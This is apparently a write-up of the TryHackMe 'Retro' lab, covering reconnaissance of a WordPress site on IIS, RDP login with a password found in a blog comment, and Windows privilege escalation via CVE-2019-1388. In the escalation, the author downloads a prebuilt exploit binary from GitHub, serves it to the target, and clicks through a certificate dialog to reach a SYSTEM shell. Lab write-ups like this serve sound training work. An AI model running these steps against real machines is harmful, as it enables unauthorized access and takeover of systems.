## Room Information

Platform: **<a href="https://tryhackme.com" target="blank">TryHackMe</a>**

Room Name: **<a href="https://tryhackme.com/room/retro" target="blank">Retro</a>**

Difficulty: [**Hard**]

Date Completed: [**10/04/2026**]


## Introduction

A Windows-based challenge where you simulate a real-world penetration test on a vulnerable machine that mimics an old, poorly secured system. The goal is to progress from initial access to privilege escalation by carefully analyzing clues and exploiting outdated system versions.


## Reconnaissance

For reconnaissance, I used nmap to now what services the target machine is hosting to find any vulnerabilities that can be exploited to get initial access on the machine.
Walk the reader through your thought process from the very start. What did you look at first? What stood out? This section should read like a story — explain _why_ you ran each tool, not just that you ran it.

### Initial Scan

```zsh
❯ sudo nmap -n -Pn -sV -sC -p80,3389 10.113.188.179
```
- `sudo` → Runs with elevated privileges (needed for some scan features)
- `n` → Skips DNS resolution (faster, no hostname lookup)
- `Pn` → Treats the host as “alive” (skips ping checks, useful if ICMP is blocked)
- `sV` → Detects service versions (e.g., Apache version, RDP version)
- `sC` → Runs default scripts (safe enumeration scripts for more info)
- `p80,3389` → Scans only ports:
- `80` → HTTP (web server)
- `3389` → RDP (Remote Desktop)
- `10.113.188.179` → Target IP


```zsh
[sudo] password for kali: 
Starting Nmap 7.99 ( https://nmap.org ) at 2026-04-13 17:16 +0200
Nmap scan report for 10.113.188.179
Host is up.

PORT     STATE    SERVICE       VERSION
80/tcp   filtered http
3389/tcp filtered ms-wbt-server

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.04 seconds
```


**What I noticed:**

From the results of the nmap scan, the target machine is likely hosting a web server on port **80** since this port is the default network port for unencrypted [HTTP (Hypertext Transfer Protocol)](https://www.google.com/search?q=HTTP+%28Hypertext+Transfer+Protocol%29&sca_esv=089c91361eed6c29&sxsrf=ANbL-n756TSVr5x41KmXwQNtmNTaZBjVaQ%3A1776093719347&ei=FwrdaaDrFJCsxc8Ps5zE0QQ&biw=1920&bih=957&ved=2ahUKEwixt6OQkeuTAxXaQ_EDHZkELb4QgK4QegQIARAC&uact=5&oq=port+80+used+for&gs_lp=Egxnd3Mtd2l6LXNlcnAiEHBvcnQgODAgdXNlZCBmb3IyChAAGLADGNYEGEcyChAAGLADGNYEGEcyChAAGLADGNYEGEcyChAAGLADGNYEGEcyChAAGLADGNYEGEcyChAAGLADGNYEGEcyChAAGLADGNYEGEcyChAAGLADGNYEGEcyDRAAGIAEGLADGEMYigUyDRAAGIAEGLADGEMYigVIwQ1QkwhY0glwAXgBkAEAmAGOA6ABjgOqAQMzLTG4AQPIAQD4AQGYAgGgAguYAwCIBgGQBgqSBwExoAedBbIHALgHAMIHAzItMcgHB4AIAA&sclient=gws-wiz-serp&mstk=AUtExfDwZmhsULJQjN7iHQPd0ijntoBFdxx8bsx3jJ3kh0yyMgf_nVZp7DlZI_rAt71cy77oqdmwHu8c-MCQBZkw-1KEn2wZyvAazgGqz1Z0ZRjyfmvytSnRW44x1i368KBacrimtSZLySHfx6VKStY_tK3NiRROR5kFmkiYiz7D6djqDiaKg6zMyD9U1Y9ExJmkpwKSklhw1LxxoTgAPaZ5OyYOo6Jh8l9DMtu9EP7JsUaqv44DZrX5L9rzq7VkN-_U6U2EJIi76VyXfVrwfhFuIExs&csui=3) traffic. It facilitates communication between web browsers and servers, allowing users to access websites. and Port **3389** is the default port used by Microsoft’s [Remote Desktop Protocol](https://www.google.com/search?q=Remote+Desktop+Protocol&oq=port+3&gs_lcrp=EgZjaHJvbWUqDAgBECMYJxiABBiKBTIGCAAQRRg5MgwIARAjGCcYgAQYigUyBwgCEAAYgAQyBwgDEAAYgAQyBwgEEAAYgAQyBwgFEAAYgAQyBwgGEAAYgAQyBwgHEAAYgAQyBwgIEAAYgAQyBwgJEAAYgATSAQkzODMxajBqMTWoAgiwAgHxBXV-_9obO32D8QV1fv_aGzt9gw&sourceid=chrome&ie=UTF-8&ved=2ahUKEwjg0urZkOuTAxUQVvEDHTMOMUoQgK4QegYIAQgAEAM) (RDP) to enable users to remotely connect to, view, and control a Windows computer or server from another location.


**Webpage Screenshot:**




### Web Directory Brute-Force/ Service Enumeration

```zsh
❯ gobuster dir -u http://10.113.188.179/ -w  /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 124 --n
```
- `dir` → Directory brute-forcing mode
- `u` → Target URL
- `w` → Wordlist (list of possible directory/file names)
- `t 124` → 124 threads (very fast scanning)

```zsh
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.113.188.179/
[+] Method:                  GET
[+] Threads:                 124
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
retro                (Status: 301) [Size: 151] [--> http://10.113.188.179/retro/]
Retro                (Status: 301) [Size: 151] [--> http://10.113.188.179/Retro/]
Progress: 87662 / 87662 (100.00%)
===============================================================
Finished
===============================================================
```

**Retro Webpage Screenshot:**



**Comment by Wade:**


**What I noticed:**

A *user* named **`Wade`** left a note on a comment section. This note could be a *password credential*. Therefore **Credential stuffing** could be performed using this credentials **`Wade:parzival`**.

- **Credential stuffing is the automated injection of stolen username and password pairs (“credentials”) in to website login forms, in order to fraudulently gain access to user accounts.**

**Further directory brute-forcing on the `/retro` directory:**

```zsh
❯ gobuster dir -u http://10.113.188.179/retro/ -w  /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 124 --ne
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.113.188.179/retro/
[+] Method:                  GET
[+] Threads:                 124
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
wp-content           (Status: 301) [Size: 162] [--> http://10.113.188.179/retro/wp-content/]
wp-includes          (Status: 301) [Size: 163] [--> http://10.113.188.179/retro/wp-includes/]
wp-admin             (Status: 301) [Size: 160] [--> http://10.113.188.179/retro/wp-admin/]
Progress: 87662 / 87662 (100.00%)
===============================================================
Finished
===============================================================

```

**What I noticed:**
Directory called **`wp-content, wp-includes, wp-admin`** indicates WordPress CMS. And *credential stuffing* could be used against the **`wp-admin`**, which is a login page.

- **WordPress is a widely used open-source content management system (CMS) that allows users to create, manage, and publish websites without advanced coding knowledge**.

- **A [Content Management System](https://www.google.com/search?q=Content+Management+System&sca_esv=27b04becbc364c98&biw=1920&bih=957&sxsrf=ANbL-n42t_TQ1jDGjzDVJ87ZAJGf_2yVRQ%3A1776098403798&ei=YxzdaZuuMKGsxc8PmYyo2Aw&ved=2ahUKEwi0n-OsouuTAxUXif0HHciHKk0QgK4QegQIARAC&uact=5&oq=cms&gs_lp=Egxnd3Mtd2l6LXNlcnAiA2Ntc0i7BFAAWIUCcAB4AZABAJgBAKABAKoBALgBA8gBAPgBAZgCAKACAJgDAJIHAKAHALIHALgHAMIHAMgHAIAIAA&sclient=gws-wiz-serp&mstk=AUtExfC0Y7CPRTS7ik1LI-DWO2jgg8lPFtHCs45zREjL8-k-CQ3hjhXm1L6FTNn0juyEnT726PYU-olbPzL5G5oMMD2wqU0hMokVivtTsEsWynrs76tPGxBXrr4MwPyMrcu3Q-syTlp2uYwT8pCst-h0yYaasjL4SlAf2ITEFKqPrptZj-vb97I5c02HkjGV8wdgqIzl2onJ3gvT-t2JAhJovj1JZhf0VmwtfwyGJH4YR84k8Jondg8L8vHNGDsoKdCd9m2fgDtvxlquZJcG-wj-gkAN-n_pOtgUZ4QW1ZU4qFahug&csui=3)[(CMS)](https://www.google.com/search?q=+%28CMS%29&sca_esv=27b04becbc364c98&biw=1920&bih=957&sxsrf=ANbL-n42t_TQ1jDGjzDVJ87ZAJGf_2yVRQ%3A1776098403798&ei=YxzdaZuuMKGsxc8PmYyo2Aw&ved=2ahUKEwi0n-OsouuTAxUXif0HHciHKk0QgK4QegQIARAD&uact=5&oq=cms&gs_lp=Egxnd3Mtd2l6LXNlcnAiA2Ntc0i7BFAAWIUCcAB4AZABAJgBAKABAKoBALgBA8gBAPgBAZgCAKACAJgDAJIHAKAHALIHALgHAMIHAMgHAIAIAA&sclient=gws-wiz-serp&mstk=AUtExfC0Y7CPRTS7ik1LI-DWO2jgg8lPFtHCs45zREjL8-k-CQ3hjhXm1L6FTNn0juyEnT726PYU-olbPzL5G5oMMD2wqU0hMokVivtTsEsWynrs76tPGxBXrr4MwPyMrcu3Q-syTlp2uYwT8pCst-h0yYaasjL4SlAf2ITEFKqPrptZj-vb97I5c02HkjGV8wdgqIzl2onJ3gvT-t2JAhJovj1JZhf0VmwtfwyGJH4YR84k8Jondg8L8vHNGDsoKdCd9m2fgDtvxlquZJcG-wj-gkAN-n_pOtgUZ4QW1ZU4qFahug&csui=3) is software, such as WordPress, HubSpot, or Drupal, that enables users to create, manage, and modify digital website content without requiring advanced coding knowledge. It simplifies publishing by providing a user-friendly interface to structure, store, and display web content.**

Scan results using the **`WhatWeb`** tool for confirmation and further services used and their versions:

```zsh
❯ whatweb -a 3 http://10.113.188.179/retro
```
- `a 3` → Aggression level 3 (more detailed fingerprinting, more requests)

```zsh
http://10.113.188.179/retro [301 Moved Permanently] Country[RESERVED][ZZ], HTTPServer[Microsoft-IIS/10.0], IP[10.113.188.179], Microsoft-IIS[10.0], RedirectLocation[http://10.113.188.179/retro/], Title[Document Moved]
http://10.113.188.179/retro/ [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Microsoft-IIS/10.0], IP[10.113.188.179], JQuery, MetaGenerator[WordPress 5.2.1], Microsoft-IIS[10.0], PHP[7.1.29], Script[text/javascript], Title[Retro Fanatics &#8211; Retro Games, Books, and Movies Lovers], UncommonHeaders[link], WordPress[5.2.1,5.2.2,5.2.3,5.2.4,5.2.5,5.2.6,5.2.7,5.2.8,5.2.9], X-Powered-By[PHP/7.1.29]
```


Scan results using the **`WPSCAN`**:

```zsh
❯ wpscan --url http://10.113.188.179/retro --detection-mode aggressive -t 48
```
- `url http://10.113.188.179/retro` → Target website
- `detection-mode aggressive` → Performs deeper, more thorough checks (more requests, higher chance of finding vulnerabilities)
- `t 48` → Uses 48 threads (faster scan, more parallel requests)

```zsh
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://10.113.188.179/retro/ [10.113.188.179]
[+] Started: Mon Apr 13 18:07:49 2026

Interesting Finding(s):

[+] XML-RPC seems to be enabled: http://10.113.188.179/retro/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://10.113.188.179/retro/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://10.113.188.179/retro/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.2.1 identified (Insecure, released on 2019-05-21).
 | Found By: Atom Generator (Aggressive Detection)
 |  - http://10.113.188.179/retro/index.php/feed/atom/, <generator uri="https://wordpress.org/" version="5.2.1">WordPress</generator>
 | Confirmed By: Style Etag (Aggressive Detection)
 |  - http://10.113.188.179/retro/wp-admin/load-styles.php, Match: '5.2.1'

[i] The main theme could not be detected.

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Aggressive Methods)
 Checking Config Backups - Time: 00:00:09 <======================================> (137 / 137) 100.00% Time: 00:00:09

[i] No Config Backups Found.

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Mon Apr 13 18:08:25 2026
[+] Requests Done: 171
[+] Cached Requests: 2
[+] Data Sent: 44.569 KB
[+] Data Received: 159.201 KB
[+] Memory used: 229.66 MB
[+] Elapsed time: 00:00:36
```

**What I noticed:**

Outdated version of WordPress version 5.2.1, which is highly insecure due to multiple unpatched Cross-Site Scripting (XSS) flaws and vulnerabilities that allow unauthenticated users to view private posts or execute Server-Side Request Forgery (SSRF) attacks.

---
## Initial Access

Credential Stuffing will be performed using the credentials **`Wade:parzival`** to attempt to gain access the target. Initial access into the target acquired using *credential stuffing* attack against the RDP service running on port **3389**. 
### Gaining Access to the Target Machine

```zsh
❯ xfreerdp3 /v:10.113.188.179 /u:Wade /p:parzival /dynamic-resolution
```
 - `xfreerdp3` → Runs the RDP client (version 3 of FreeRDP)
 - `/v:10.113.188.179` → Specifies the target IP address (the remote Windows machine)
 - `/u:Wade` → Username used to log in
 - `/p:parzival` → Password for that user
 - `/dynamic-resolution` → Automatically adjusts the remote desktop resolution to match your window size




**Shell obtained as:** **`retroweb/wade`**


## Privilege Escalation

> This is often the most educational part of a writeup. Take the reader through your enumeration mindset — what you checked, what you dismissed, and what finally clicked. Be specific about the "aha moment."

### Enumeration

**HINT**  


**Chrome History results:**


**What I noticed:**

There is a history search about CVE-2019-1388. Mostly likely the user of the machine was search about the possible vulnerability, that the machine is vulnerable to. CVE-2019-1388 works by using a Windows Certificate Dialog to elevate privileges.
### Transferring Exploit To The Target Machine


**Attack Machine:**

```zsh
❯ wget https://raw.githubusercontent.com/suprise4u/CVE-2019-1388/main/HHUPD.EXE
```

```zsh
--2026-04-13 20:44:28--  https://raw.githubusercontent.com/suprise4u/CVE-2019-1388/main/HHUPD.EXE
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.109.133, 185.199.110.133, 185.199.111.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.109.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 732344 (715K) [application/octet-stream]
Saving to: ‘HHUPD.EXE.1’

HHUPD.EXE.1                   100%[==============================================>] 715.18K   282KB/s    in 2.5s    

2026-04-13 20:44:33 (282 KB/s) - ‘HHUPD.EXE.1’ saved [732344/732344]

```

```
❯ ls
HHUPD.EXE 
❯ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```


**Target Machine:**  


**Executing the exploit in PowerShell:**  


**Select: Show more details**  


**Select: Show information about the publisher's certificate**  



**Select: VeriSign Commercial Software Publishers CA**  


**Select: Internet Explorer**  



**Select : Gear Icon > File > Save as...**  


---
### Root / Admin Shell

**Save as cmd.exe to open Command prompt with NT AUTHORITY/SYSTEM privileges.**  



---

_Writeup by @Mordial_